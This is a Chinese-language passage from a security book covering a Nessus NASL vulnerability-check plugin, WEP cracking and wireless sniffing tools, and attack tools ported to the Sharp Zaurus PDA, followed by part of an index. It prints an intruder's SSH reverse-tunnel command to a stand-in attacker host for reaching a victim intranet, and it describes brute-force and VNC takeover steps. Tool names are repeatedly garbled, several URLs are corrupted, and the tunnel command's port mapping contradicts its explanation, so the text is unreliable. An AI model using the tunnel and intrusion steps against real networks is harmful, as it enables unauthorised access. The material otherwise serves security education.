Nessus 是一款免费且开源的安全扫描器，可从 http://www.nessus.org/ 获取。本章提供了一个分步示例，演示如何使用 NASL（Nessus 攻击脚本语言）为 Nessus 编写漏洞检查插件。由于 NASL 专门用于编写 Nessus 插件，它使得这些插件的开发变得简单明了。Nessus 公开可用的插件列表可在 http://cgi.nessus.org/plugins/ 找到。

> 使用 NASL 编写的插件文件名以扩展名 ".nasl" 结尾。由于 NASL 是一种解释型语言，这些文件也被称为 NASL “脚本”。

## 从命令行运行 NASL 脚本

请查看你的 Nessus 安装目录中的 plugins 目录，以找到随每个 Nessus 发行版捆绑的所有 NASL 脚本。可以使用 nasl 解释器从命令行运行 NASL 脚本：

```
nasl -t target_ipaddress script.nasl
```

## 使用 NASL 编写 Nessus 插件

在本节中，我们将查看一个示例，介绍如何使用 NASL 编写漏洞检查插件。但首先，我们必须找出一个要检查的漏洞示例。一旦识别出漏洞，我们就可以通过编写合适的插件来使用 Nessus 检测它，如下几段所述。

### 漏洞示例

Web 应用程序经常使用文本文件来存储应用程序设置信息。为了说明我们的示例，假设一个 Web 应用程序将用户名和密码信息存储在 Web 服务器 Web 根目录中的文件（如 /src/passwd.inc）中。如果运行该应用程序的 Web 服务器被配置为提供 .inc 文件，这种情况将被视为一个漏洞。外部用户可以通过向 Web 服务器请求 /src/passwd.inc 来利用此类漏洞，从而获取用户密码。

### 插件

本节描述如何使用 Nessus 检测 Web 服务器上是否存在文件 /src/passwd.inc。首先，我们必须编写一个 NASL 脚本来执行此操作。该脚本将作为一个 Nessus “插件”。这样一个脚本看起来如下所示：

```
if(description)
{
        script_id(99999);

        script_version("$Revision: 1.0 $");

        script_name(english: "Checks for /src/passwd.inc");

        desc["english"] = "/src/passwd.inc is usually installed
by XYZ application and contains user password information
in clear text.

Solution: Configure your web-browser to not serve .inc
files.

Risk factor : High";

        script_description(english:desc["english"]);

        script_summary(english:"Checks for the existence of
/src/passwd.inc");

        script_category(ACT_GATHER_INFO);

        script_copyright(english:"This script is Copyright
(C)2003 Nitesh Dhanjani");

        script_family(english:"CGI abuses");

        script_require_ports("Services/www", 80);

        exit(0);
}

include("http_func.inc");

port = 80;

if(get_port_state(port))
{
    hget = http_get(item:"src/passwd.inc", port:port);
    mysoc = http_open_socket(port);
    if(!mysoc)exit(0);
    send(socket:mysoc, data:hget);
    myrec = http_recv(socket:mysoc);
    http_close_socket(mysoc);
    if (!("404" >< myrec))
    {
        security_hole(port);
    }
}
```

当 Nessus 运行脚本以提取插件的摘要信息时，`description` 变量的值被设置为 1。因此，当 `description` 的值为真（即非零）时，我们定义各种插件描述变量的值。

`script_id` 函数为插件设置唯一的 ID。每个插件的值必须是唯一的。在这种情况下，我们可以将其设置为 9999 这样的大数，以确保值 distinct（不同/独特）。`script_version` 函数显示有关插件的版本信息。更新此数字以反映插件的最新版本是个好主意。`script_description` 函数设置插件的描述，当用户查询插件时，该描述由 Nessus 客户端显示。同样，`script_summary` 函数用于设置插件的摘要描述。

`script_category` 函数设置 Nessus 所需的插件类别。在我们的情况下，我们将其设置为 `ACT_GATHER_INFO`，因为该插件收集远程服务的信息；也就是说，它检查 Web 服务器上是否存在文件 `/src/passwd.inc`。`script_copyright` 函数用于设置作者版权信息。

Nessus 将插件分为不同的“家族”，以帮助对执行的漏洞检查进行排序。我们将其设置为“CGI abuses”以指示基于 CGI 的 Web 应用的滥用。访问 [http://cgi.nessus.org/plugins/dump.php3?view=web&family](http://cgi.nessus.org/plugins/dump.php3?view=web&family) 查看按家族分类的公开可用插件列表。

可以通过在 GUI 客户端的扫描选项选项卡中选择适当的复选框来配置 Nessus，以优化测试。当


当启用此选项时，Nessus 会扫描与目标机器开放端口上运行的应用程序相关的漏洞。`script_require_ports` 函数可用于设置远程机器上与漏洞相关的端口，在我们的案例中，该端口被设置为 www (HTTP)。

上述描述的函数用于为插件设置各种描述值。插件的描述可以通过双击 Nessus GUI 客户端中 Plugins 选项卡显示的插件列表中相应的插件名称来查看。图 10-1 展示了相应的截图。`http_func.inc` 文件包含了一组方便我们使用的有用 HTTP 函数。由于我们使用了该文件中定义的函数，因此我们通过 `include` 函数包含了此文件。

`get_port_state` 函数用于检查目标主机上特定端口的状态。在我们的案例中，我们检查 80 端口。如果该端口已关闭，继续操作就没有意义，因此我们调用 `exit(0)`。

为了检查 Web 服务器上是否存在 `/src/passwd.inc` 文件，连接到 Web 服务器时发送的 HTTP 请求必须如下格式：

```
GET /src/passwd.inc HTTP/1.0
```



**图 10-1.** Nessus GUI 客户端显示的插件描述

上述 GET 请求可以通过使用 `http_get` 函数来创建。然后，该请求可以作为 `send` 函数的参数，该函数通过 `http_open_sock` 函数打开的套接字连接将请求发送到目标主机。使用 `http_recv` 函数读取来自 Web 服务器的结果数据，并将其内容存储在 `myrec` 变量中。完成后，使用 `http_close_socket` 关闭套接字描述符。然后检查 `myrec` 的内容中是否包含子字符串 `404`，如果 Web 服务器上不存在该文件，则会存在该子字符串。这使用 `<<` 运算符完成，该运算符用于检查给定字符串变量中的子字符串。如果在来自 Web 服务器的返回数据中未找到 `404`，则很可能该文件存在，并通过调用 `security_hole` 函数将此事实告知 Nessus。

请参见 [http://www.nessus.org/doc/nasl2_reference.pdf](http://www.nessus.org/doc/nasl2_reference.pdf) 以获取最新的 NASL 参考手册。

## 运行插件

请确保上述脚本放置在 Nessus 的插件目录中。该脚本的文件名必须以扩展名 ".nasl" 结尾。运行 Nessus GUI 并选择 Plugins 选项卡。确保选中 CGI Abuses。高亮显示 CGI Abuses 并确保名为 "Checks for `/src/passwd.inc`" 的插件已启用。如果您难以找到该插件，请点击 Filter 按钮并搜索 ID 为 `9999` 的内容。

要从我们的插件获得阳性结果，您必须配置一个本地 Web 服务器来提供 `/src/passwd.inc` 文件。如果某主机上正在运行 Apache Web 服务器，只需使用 `touch` 命令在 Web 服务器的 Web 根目录下创建 `/src/passwd` 文件：

```bash
mkdir /var/www/html/src
touch /var/www/html/src/passwd
```

在 Target Selection 选项卡中输入目标 Web 服务器的 IP 地址或名称，然后点击 Start The Scan。如果一切顺利，Nessus 将检测并报告我们的自定义漏洞，如图 10-2 所示。



### 总结

本章展示了使用 NASL 语言为 Nessus 扫描器编写插件的便捷性。首先，介绍了一个 Web 应用程序漏洞示例。接着，详细讨论了创建一个用于检测此漏洞的 NASL 脚本的过程，并对脚本源代码进行了逐步说明。还提供了如何将 NASL 脚本集成到 Nessus 插件列表中的说明。大型组织经常使用自行开发的软件应用程序，其中可能会发现漏洞。此外，Nessus 扫描器包中可能不包含某些漏洞检查，而这些检测对于组织的安全态势至关重要。本章中的信息可用于从零开始编写 Nessus 插件，以检测此类漏洞。

# 第 11 章 无线入侵

本章内容：

- WEP 简介
- 天线
- 流行工具
- 保护无线网络
- 总结

无线网络搭建起来非常容易，对于讨厌被以太网线束缚的人来说是一大福音。然而，由于 802.11b 标准中使用的有线等效隐私 (WEP) 协议存在漏洞，从安全角度来看，它们也是一场噩梦。由于 Airospot 和 Kismet 等自由获取的开源工具的存在，任何拥有无线网卡和笔记本电脑的人都可以入侵无线网络。已知有人驾车在城市各处寻找那些无线网络覆盖范围可能超出其办公空间、可到达如停车场等可访问地点的公司，这种活动被称为“战争驱动”（war driving）。不幸的是，许多无线网络管理员并没有意识到这一点，也未意识到自己易受此类入侵者的攻击。本章描述了入侵者用于获取无线网络访问权限的工具和技术，并提出了如何更好地对此进行防护的建议。

### WEP 简介

由于 WEP 基于对称共享密钥系统，它使用相同的密钥来加密和解密数据。密钥 (k) 长度要么为 128 位，要么为 64 位，由一个 24 位的初始化向量 (IV) 组成。WEP 有效载荷的构造如下：

1. 将消息 M 与其自身的 CRC-32 校验和 c(M) 拼接：
   `M c(M)`
2. IV 在秘密密钥之前应用，并经过 RC4 流密码算法：
   `RC4(IV,k)`
3. 将步骤 1 和 2 的结果进行异或（XOR，即 eXclusive OR）运算以生成密文。然后，将 IV 与密文拼接以生成 WEP 有效载荷：
   `IV Cipher-text = ((M),c(M)) XOR (RC4(IV,k))`

从上述步骤可以看出，WEP 帧包含明文 IV。许多无线网卡随机选择其 IV，而另一些则从 0 开始顺序递增。由于 IV 仅 24 位长，无线网卡或接入点每隔几个小时就会重用一次。

请注意，最终传输的帧除了其他信息外，还包含明文的 MAC（媒体访问控制）源和目标信息。

Aircrort 等工具利用 RC4 密钥调度算法 (KSA) 中的弱点。这些弱点的细节由 Scott Fluhrer、Islik Mantin 和 Adi Shamir 在一篇研究论文中提出。该论文可以通过请求以下 URL 获取：http://www.drizzle.com/~aboba/IEEE/rc4_ksa proc.pdf。

### 天线

在对某个区域进行无线活动审计时，找到合适的天线非常重要。使用天线可以接收否则无法检测到的来自网络的无线信号。

**定向** 顾名思义，定向天线专注于特定方向来接收和发送信号。这些天线对于在两个位置之间创建无线桥接最为有用。定向天线通常用于建立两个远程位置之间的点对点链接。因此，在移动时或在信号方向未知的情况下，它们帮助不大。常见的定向天线类型包括八木天线和抛物面天线。

**全向** 全向天线通常用于扩展接入点的范围。它们在所有方向上传输和接收信号。因此，全向天线在实施“战争驱动”测试的个人中很受欢迎。以下是一些专营天线的知名供应商列表：

- Fleeman Anderson & Bird Corp: http://fab-corp.com/
- HyperLink Technologies: http://www.hyperlinktech.com/
- NetNimble: http://www.netnimble.net/
- SuperPass: http://www.superpass.com/
- Wireless Central: http://wirelesscentral.net/

想要自己制作低成本天线吗？请访问 http://www.turnpoint.net/wireless/has.html 上的“802.11b Homebrew Antenna Shootout”。


## 常用工具

Airsnot 和 Kismet 是最流行且最实用的无线入侵工具。它们可用于检测无线网络以及破解启用 WEP 的网络的加密密钥。

> 对于启用 WEP 的无线网络，入侵者必须采取的第一步是利用 Airsnot 等工具获取 WEP 加密密钥。在获取密钥并成功加入无线网络后，入侵者可以使用 Ettercap、tcpdump 和 Etherleato 等流行工具来分析网络流量。

### Airsnot

Airsnot（如图 11-1 所示）是一个基于 Linux 的网络嗅探工具，它通过被动监控无线传输来破解 WEP 加密密钥。Airsnot 可在 **http://airsnot.shmoo.com/** 获取。目前，Airsnot 支持以下无线网卡：

-   Cisco Aironet。
-   基于 Prism2 的网卡。支持的网卡列表请参考 **http://www.linux-wlan.org/**。
-   Orinoco 网卡。请从 **http://airsnot.shmoo.com/orinocoinfo.html** 下载驱动程序补丁和相关信息。

关于常见问题和疑问的解答，请参阅 Airsnot FAQ。其网址为 **http://airsnot.shmoo.com/faq.html**。



### Kismet

Kismet（如图 11-2 所示）是一种无线网络嗅探器，可用于捕获和查看某区域内无线网络的信息。它拥有以下特点：

-   Ncurses 界面
-   信道跳变
-   多数据包源
-   IP 块检测
-   支持使用 gpsmap 进行 GPS 映射
-   即时 WEP 解密

...以及许多其他功能。更多信息请访问 **http://www.kismetwireless.net/documentation.shtml**。

关于如何在 Linux 上安装和使用 Kismet 的详细说明，请参阅 **http://www.tipsybottle.com/technology/wireless/RedHat8-Kismet-HOWTO.shtml**。这篇文章中包含的大多数说明也适用于 Airodump。

### Fata-Jack

Fata-Jack 是 Wlan-Jack 工具的修改版本。它向接入点发送带有已关联客户端源地址的认证请求。这个认证包被故意设计为包含无效信息。当接入点接收到此数据包时，它会取消那个地址被欺骗的客户端的认证。受害客户端此时必须与接入点重新进行认证。因此，任何能够访问网络接入点的恶意用户都可以利用此工具发起拒绝服务攻击。

Fata-Jack 可在此处下载：http://www.loud-fat-bloke.co.uk/w%20080211.html。关于 Wlan-Jack 的信息可在 http://80.211.ninja.net/ 获取。



**图 11-2**。正在运行中的 Kismet

## 保护无线网络

使用 Airosnort 等工具，通常约 5,000,000 至 10,000,000 个数据包就足以破解 WEP 秘密密钥。通常，一个具有一定活跃度的网络在几个小时内就会传输如此数量的数据包。因此，在部署和管理无线网络时，确保足够的安全性变得至关重要。以下是一些建议：

-   将网络视为“不可信”：必须将无线网络视为不可信网络，并与组织的内部网络隔离。如果必须允许无线用户访问可信网络，建议建立 VPN（虚拟专用网络），以便无线用户可以通过支持加密的 VPN 客户端进行连接。同时考虑使用支持 LEAP（轻量级可扩展认证协议）的接入点。此外，鼓励使用采用 WEP-Plus 算法的网络设备，以避免传输具有弱初始向量的帧，从而阻止 Airosnort 等软件成功破解 WEP 加密密钥。
-   鼓励使用采用加密的工具：SSH 等工具有助于创建加密隧道，应在可能时使用。内网网站必须支持 SSL。
-   不允许通过无线方式管理接入点：某些接入点允许禁用无线管理功能。这是一个好主意，因为配置它需要物理访问接入点。
-   更改默认 ESSID 并禁用广播：ESSID（扩展服务集 ID）是一个作为配置参数输入到接入点和以太网卡的字符串。具有相同 ESSID 的设备参与同一个网络。接入点在出厂时通常配置为某个默认 ESSID，通常是厂商的名称。更改这些默认 ESSID 是个好主意。许多接入点还会广播它们的 ESSID，以便无线客户端可以从可用网络中进行选择。建议配置接入点以禁用此功能，因为它会向无权使用该网络的人员广播网络信息。请注意，此步骤并不能保证多少安全性，也不应依赖它。
-   **MAC 地址过滤**：考虑利用支持 MAC 地址过滤的接入点，只允许具有已知 MAC 地址的选定客户端使用网络。然而，这无法阻挡高明的黑客，因为合法用户的 MAC 地址是以明文传输的。这些地址可以被窃听并从空气中捕获，并且可以被欺骗以获取网络访问权限。维护一个授权 MAC 地址列表是一件相当麻烦的事，因此对于大型组织而言，这可能难以实施。

### 总结

在介绍 WEP 协议之后，本章重点介绍了可用于利用和检测无线网络弱点的无线安全工具。常用的 Airosnort 工具可用于破解无线网络中正在使用的 WEP 加密密钥。Kismet 无线嗅探器可用于检测并识别某区域内的无线网络。Fata-Jack 程序可用于对无线网络主机发起拒绝服务攻击。此外，还讨论了不同类型无线天线的优点和用途。最后，本章提出了关于如何更好地保护无线网络免受入侵尝试的建议。因此，强烈建议无线网络管理员理解并执行本章中提出的建议。

## 第 12 章

# 使用 Sharp Zaurus PDA 进行黑客攻击

-   本章内容：
  -   Kismet
  -   Wellenreiter II
  -   Nmap
  -   Openmapfe
  -   Bing
  -   OpenSSH
  -   Hping2
  -   VNC 服务器
  -   Keypebble VNC 查看器
  -   Smbmount
  -   Topdump
  -   Wget
  -   ZEthera al
  -   zNessus
  -   MTR
  -   Dig
  -   Perl
  -   Zaurus 在线资源
  -   总结

Sharp Zaurus PDA（个人数字助理）设备运行嵌入式版本的 Linux 操作系统。PDA 内置对各种紧凑型 802.11 网络卡片的支持。这些特性加上 PDA 的小巧外形，使 Zaurus 成为一个强大的设备。在本章中，我们将探讨许多已经移植到 Zaurus 架构上的 Linux 安全工具。在可能的情况下，我们会提供屏幕截图以满足您的好奇心。

### KISMET

Kismet 是一种无线网络嗅探器，可用于捕获和查看区域内无线网络的信息。入侵者不再需要携带笨重的笔记本电脑来发现某区域周围的无线网络。只需要 Zaurus PDA，以及可从 **http://kismetwireless.net/code/** 下载 Kismet 移植版即可。一旦你下载、解压并解包从该 URL 获得的 tar.gz 文件，你会发现在创建并生成的 kismet-arm 目录中有一个 ipk 包文件。使用文件管理器打开此文件以安装 Kismet，当其在 PDA 上运行时，效果如下所示。



Kismet 的 GUI 界面可在 **http://sourceforge.net/projects/kismet-qt/** 获取。


## WELLENREITER II

Wellenreiter 是一款无线网络监视器，可用于检测并识别区域内的无线网络。Wellenreiter 的后续版本将支持 WEP 破解和数据包注入。请从 http://opie.net.wox.org/wellenreiter/feed/ 下载 Wellenreiter。

## NMAP

一旦入侵者使用 Kismet 等工具获得了对无线网络的访问权限，他们很可能会对网络的 IP 范围执行网络扫描，以发现和枚举主机。Nmap 是当今可用的功能最丰富的端口扫描器之一。（关于如何使用 Nmap 通过多种方法执行端口扫描的详细信息，请参阅第 2 章。）Nmap 的 Zaurus 移植版（如图所示）可在 http://familiar.handhelds.org/familiar/releases/v0.7/base/armv4l/ 获得。



## OPENMAPFE

Openmapfe 是 Zaurus Nmap 移植版（如 图 12-3 所示）的图形用户界面前端，可从 http://home.midsouth.rr.com/zaurus/ 获得。这对于不熟悉或不习惯使用 Nmap 命令行参数的用户来说是一个非常有用的工具。



## BING

Bing 在下图中所示是一个自动执行端口扫描的简单脚本。执行时，它会通过广播 ping 请求来发现当前子网中的活动主机。然后，它列出子网中响应 ICMP 回显请求的主机列表。然后，您可以从给定列表中选择一台主机，针对其执行端口扫描（使用 Nmap）。请从 http://www.claustyckey.com/chad/bing_0.0.1_arm.ipk 下载 Bing 的包文件。



## OPENSSH

OpenSSH 套件包括支持 SSH 协议的免费客户端版本。它还包含 SSH 服务器的免费版本。可以在 http://killefiz.de/zaurus/showdetail.php?app=1035 找到 OpenSSH 的 Zaurus 移植版。

入侵者可能会使用 OpenSSH 客户端建立一个从组织网络到其舒适居所的加密隧道。考虑以下情况：一个已获得组织无线网络访问权限的入侵者在其 PDA 上启动以下命令：

```
ssh -R 80:intranet.victimorgasanexample.com:8000 intruder@intruders_ip
```

在入侵者发出此命令并输入其账户密码后，将在目标组织网络和入侵者主机之间建立一条加密隧道。入侵者主机上端口 8000 上的任何连接都将通过加密的 OpenSSH 隧道重定向到受害者组织内部主机 intranet.victimorgasanexample.com 的端口 80。此时，入侵者需要做的只是找到一个安全的地方隐藏其 Zaurus 设备，然后回到家中，以便在其方便时利用 intranet.victimorgasanexample.com！

## HPING2

Hping2 是一个用于发送任意网络数据包的。它可以被入侵者用于测试组织的防火墙规则集。Hping2 的手册页可在 http://www.hping.org/manpage.html 在线获得。Zaurus 的移植版可在 http://killefiz.de/zaurus/showdetail.php?app=902 获得。

下图展示了 Hping2 的实际运行情况。注意它是以 -S 标志运行的，该标志向目标主机的 111 端口发送 SYN 数据包。由于目标主机正在此端口监听，因此它会以 SYN+ACK 数据包响应，这在 Hping2 的输出中表示为 “flags=SA”。



## VNC SERVER

VNC（Virtual Network Computing，虚拟网络计算）是一个远程管理软件包，它允许用户访问另一台主机的桌面。VNC 服务器的 Zaurus 移植版可在 http://sdgsystems.com/download.html 获得。Zaurus 用户可能会发现 VNC 服务器对于远程访问其 PDA 很有用。

另一方面，由于 Zaurus PDA 可以运行各种服务器软件（如 SSH），因此有可能尝试对这些服务进行暴力破解攻击。一旦 PDA 上的账户被攻破，入侵者可能会在受害者的 PDA 上安装 VNC 服务器，以获取对该设备的控制权（参见 图 12-1）。


**图 12-1.** 使用 VNC 远程控制 Zaurus PDA

## KEYPEBBLE VNC VIEWER

通常，用户会错误地配置其 VNC 服务器，使用弱密码或不设置密码。一个已获得组织内网访问权限的入侵者可以使用 VNC 查看器连接到易受攻击的 VNC 服务器，从而获取对配置错误的受主机的控制权（参见下图）。其中一种查看器，Keypebble VNC 查看器，可用于 Sharp Zaurus PDA，并可以从 http://kilefiz.de/zaurus/showdetail.php?app=186 下载。



## SMBMOUNT

Smbmount 工具允许用户挂载 Samba 网络共享。通常，用户会错误地配置其 Samba 文件共享，使用弱密码或不设置密码。Smbmount 工具可被入侵者用于访问此类共享。（关于 Samba 配置错误的详细信息，请参阅第 4 章。）可以在 http://www.dasgehtdichnichtsan.de/zaurus/smbmount.html 找到 Smbmount 工具的 Zaurus 移植版。

## TCPDUMP

Tcpdump 是一个流行的网络分析器程序，可用于嗅探网络段上的敏感数据（参见下图）。Tcpdump 和其他网络分析器程序也被网络管理员用于执行故障排除。Zaurus 的 Tcpdump 可从 http://www.sklogicsoftware.com/znetmeter/tcpdump_zaurus.html 下载。



## WGET

Wget 是一个使用 HTTP、HTTPS 和 FTP 协议下载文件的工具。它有许多有用的功能，包括从网站递归下载文件的能力。一个已获得组织无线网络访问权限的入侵者可以使用 Wget 快速镜像该组织的内网网站。Zaurus 默认安装 Wget。

## ZETHEREAL

Zetheréal 是流行的 GUI 网络分析器 Ethereal 的移植版。Zetheréal 的二进制文件和截图可在 http://www.cartel-info.fr/pbiondi/zaurus/zetheréal.html 获取。关于 Ethereal 的详细信息和文档可在 http://www.ethereal.com/ 找到。

## ZNESSUS

zNessus 工具是 Nessus GUI 客户端的 Zaurus 移植版。截图和二进制文件可在 http://znessus.sourceforge.net/ 获得。zNessus 可用于从 Nessus 服务器远程配置和启动漏洞检查。关于 Nessus 扫描器的更多信息，请参阅第 4 章和第 11 章。

> zNessus 客户端要求 Nessus 服务器配置为支持未加密的通信（默认情况下是禁用的）。如果您决定在 Nessus 服务器上禁用加密，请务必阻止所有传入到 Nessus 端口（默认为 1241）的流量。使用 OpenSSH 客户端连接到 Nessus 服务器主机，以安全地传输您的 zNessus 流量。

## MTR

MTR（Matt’s TraceRoute，如下一插图所示）是一个将 ping 和 traceroute 程序的功能结合到单一程序中的工具。（关于 ping 和 traceroute 的更多信息，请参阅第 2 章。）Zaurus 的 MTR 移植版的二进制包可从 http://psifertex.com/zaurus/mtr_0.51_arm.ipk 下载。



## DIG

dig 工具可用于查询 DNS 服务器以获取 MX 记录、服务器版本信息等信息，以及执行其他 DNS 查找查询。Zaurus 的 Dig 可在 http://kilieferz.de/zaurus/showdetail.php?app=362 获得。

## PERL

许多安全工具，如 Nikto 和 Whisker 网络漏洞扫描器，都是使用 Perl 语言编写的。由于 Perl 是一种解释型语言，因此无需重新编译现有的 Perl 脚本即可在 Zaurus 上运行它们。Zaurus 的 Perl 可在 http://zaurus.frontgarden.net/perl.html 获得。

## Zaurus 的在线资源

Zaurus PDA 在 Linux 社区中享有很大的声誉。除了本章讨论的工具外，每天都有新的工具被创建和移植。下表中的资源提供了软件资源以及常见问题解答（FAQ）和社区论坛的链接。

| 描述 | URL |
| --- | --- |
| Zaurus 软件索引 | http://killefiz.de/zaurus/ |
| Zaurus DevNet 论坛 | http://www.zaurus.com/dev/board/ |
| Zaurus Zone | http://www.zaurszone.com/ |
| Sharp 开发者 | http://www.zaurus.com/dev/ |
| 非官方 Sharp Zaurus SL-5500 FAQ | http://www.newbreedsoftware.com/zaurus-faq/ |
| ZaurusSoft 软件数据库 | http://www.zaurussoft.com/ |
| OpenZaurus 替代 ROM | http://openzaurus.org/ |

### 总结

在本章中，您查看了可用于 Zaurus PDA 的各种安全工具。用于无线发现、网络嗅探和扫描的工具现在已可用于 Zaurus。此外，诸如 Perl 等脚本语言已移植到 Zaurus，允许用户运行使用 Perl 语言构建的安全工具。如此庞大的安全工具库加上 Linux 操作系统的灵活性，使得 Zaurus PDA 成为一种强大的工具，可用于对目标网络执行攻击和渗透任务。


#### 索引

## 符号与数字

- 在 PATH 环境变量中，“.*” 展开并植入特洛伊木马，114-115
- 移除以进行主机加固，132
- #（井号），用于禁用来自 inetd 的 FTP，134
- 0，将本地账户 uid 更改为 0，123-124
- 127.0.0.1（回环接口），上的未限制流量，112

## A

- Netscape/Mozilla POP3 邮件处理器的整数溢出漏洞，103-104
- PCP4Pine 长消息行缓冲区溢出，104
- 防止对此的利用，104
- ARIN（美国互联网号码注册局），网址，12
- ARP 欺骗，解释，59-60
- ASCII（美国标准信息交换代码）表，RC 22-RC 27
- 攻击
  - 反弹攻击，65
  - 暴力破解攻击，58-59
  - DOS（拒绝服务）攻击，149-150
  - 中间人攻击，60-61
  - 针对 Web 代理的攻击，102-103
- 审计，启用，121
- authorized，SSH 中的密钥，利用，125
- 自动索引，漏洞，80-81

- 账户，在非必要时移除或禁用，132
- ACK 扫描，使用 Nmap 执行，30
- 管理弱点
  - 搜索招聘信息中的弱点，4
  - 搜索 Usenet 档案中的弱点，7-8
- Adore 根权限木马，下载，127
- Airsport 无线黑客工具，使用，171, 172
- Amap，通过其识别远程服务，36, 63
- 天线，为无线活动选择天线，171
- Apache（HTTP 和 HTTPS），加固，139
- Apache，分块处理漏洞，85
- APNIC（亚太网络信息中心），网址，12
- 应用程序漏洞
  - BitchX 远程堆损坏，104
  - tcpdump 中格式错误的 NFS 和 BGP 数据包缓冲区溢出，103

## B

- 后门
  - 使用 Loki2 安装，125-126
  - 使用，122-126
- 横幅获取
  - 自动化，54-56
  - 解释，36
- bash，历史文件，检查内容，120-121
- tcpdump 中 BGP 和 NFS 数据包缓冲区漏洞，出现情况，103
- bin 和 sys，由其拥有的文件，146
- /bin 文件，为这些文件分配适当的权限，147

## C

- /bin/ls 二进制文件，用特洛伊木马替换，126
- 二进制文件，检测对其进行的修改，127
- BIND（伯克利互联网名称服务）
  - 配置以禁止显示版本信息，42
  - 加固，138–139
  - 漏洞，75
- BIND 版本信息，从 DNS（TCP/UDP 端口 53）获取，41–42
- Bing，与 Zaurus PDA 一起使用，180
- BitchX 远程堆损坏漏洞，出现情况，104
- 反弹攻击，出现情况，65
- 暴力破解攻击
  - 防御措施，59
  - 动态过程，58
  - 针对 FTP 账户，63–64
  - 针对 TCP 端口 80 上的 HTTP（超文本传输协议），77
  - 针对 TCP 端口 143 上的 IMAP2/IMAP4，92
  - 针对 TCP 端口 3306 上的 MySQL，95–96
  - 针对 NNTP（网络新闻传输协议），89
  - 针对 TCP 端口 109 上的 POP2（邮局协议 2），85
  - 针对 TCP 端口 110 上的 POP3（邮局协议 3），86
  - 针对 Samba，90
  - 针对 SSH（安全外壳协议），67–68
  - 针对 VNC（虚拟网络计算），97–98
- BSM（基本安全模块），启用以用于日志文件，154
- 缓冲区溢出
  - 原因，61
  - 出现情况，116
  - 在 OpenSSL 中，93
  - 在 RPC 服务中，88
- 公司前缀，通过其查询 RIR 记录，13
- 配置文件，搜索敏感信息，7
- 常见威胁，出现情况，66
- Cookie，在会话劫持中的作用，83
- 核心转储，漏洞，117–118
- 破解 /etc/shadow 文件，109–110
- cron 守护进程，示例，155

- CDE Toolkit，漏洞，117
- Chkrootkit，网址，127
- chmod 命令，用其更改文件权限，144
- CIDR（无类别域间路由）
  - 地址，表示法，RC 12。另见 IP 地址
- A 类至 E 类 IP 地址，解释，RC 9–RC 11
- 命令历史日志记录，禁用，121
- 命令，植入特洛伊木马，126

## D

- 数据资源，搜索，7
- 数据信件文件，搜索内容，5
- destroy 命令，与 Web 代理一起使用，102
- /dev 目录，适当的文件权限，149
- df 命令，用其检查 /var 目录中的可用空间，157
- dig 工具，与 Zaurus PDA 一起使用，185
- 定向天线，用于无线活动，171
- 磁盘分区，保护，149–150
- DNS（域名系统）TCP/UDP 端口 53
  - 欺骗，74
  - 使用，41–42
  - 漏洞，74
- DNS 反向查找
  - 执行，14–15
  - 防止由此导致的暴露，15
- DNSSEC（DNS 安全），使用，74–75
- dnsspoof 程序，用其欺骗 DNS 响应，74
- 域名，通过域名注册商记录查询，9–10
- 域名前缀，通过域名注册商记录查询，10–11
  - 防止由此导致的暴露，11
  - 按域名查询，9–10
  - 按域名前缀查询，10–11
  - 按电子邮件查询，11
  - 按句柄查询，11
- 域名注册商，使用，8–9
- DOS（拒绝服务）攻击，在可用磁盘空间上发起，149–150

## E

- 电子邮件
  - 加密，73
  - 通过域名注册商记录查询，11
  - 通过 RIR 记录查询，14
- echo 命令，用其打印当前用户的 PATH 变量，132
- EDGAR（电子数据收集、分析和检索系统），搜索，4
- 枚举远程服务，36–54
- ESSID（扩展服务集标识），更改以禁用广播，174–175
- /etc 文件
  - 分配适当的权限，147–148
  - 保护，113
- /etc/hosts.equiv，检查内容，133
- /etc/passwd，审计其中的 uid 和 gid 设置，124
- /etc/shadow 文件
  - 破解，109–110
  - 漏洞，117–118
- Ettercap ARP 欺骗工具
  - 用它嗅探和破解 VNC 密码，98–99
  - 用它嗅探 FTP 认证，64–65
  - 用它嗅探 POP3 密码，86–87
  - 与 SSH 一起使用，68
  - 网址，60
- EXPN 命令
